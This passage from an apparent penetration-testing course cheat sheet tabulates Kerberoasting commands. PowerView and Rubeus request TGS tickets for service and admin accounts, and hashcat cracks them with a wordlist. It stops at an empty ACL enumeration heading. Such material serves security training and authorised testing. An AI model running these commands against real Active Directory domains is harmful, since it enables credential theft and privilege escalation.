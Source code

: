 | `cat sqldev_tgs_hashcat`                                                                                                                                                                                     | Used to view the prepared hash from a Linux-based host.                                                                                                                                          |
| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`                                                                                                                                       | Used to crack the prepared Kerberos ticket hash (`sqldev_tgs_hashcat`) using a wordlist (`rockyou.txt`) from a Linux-based host.                                                                 |
| `Import-Module .\PowerView.ps1 Get-DomainUser * -spn \| select samaccountname`                                                                                                                               | Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host.                                                                                                              |
| `Get-DomainUser -Identity sqldev \| Get-DomainSPNTicket -Format Hashcat`                                                                                                                                     | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for `Hashcat` from a Windows-based host.                                                 |
| `Get-DomainUser * -SPN \| Get-DomainSPNTicket -Format Hashcat \| Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`                                                                                          | Exports all TGS tickets to a `.CSV` file (`ilfreight_tgs.csv`) from a Windows-based host.                                                                                                        |
| `cat .\ilfreight_tgs.csv`                                                                                                                                                                                    | Used to view the contents of the .csv file from a Windows-based host.                                                                                                                            |
| `.\Rubeus.exe`                                                                                                                                                                                               | Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host.                                                                                 |
| `.\Rubeus.exe kerberoast /stats`                                                                                                                                                                             | Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host.                                                                                        |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`                                                                                                                                                 | Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap`                                                                                                                                                              | Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host.           |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`                                                                                                       | PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host.                              |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt`                                                                                                                                             | Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host .                                                                                              |

### ACL Enumeration & Tactics

| Command                                                                                                                                                                                                                                                                                                | Description                                                                                                                                                                                                                                                          |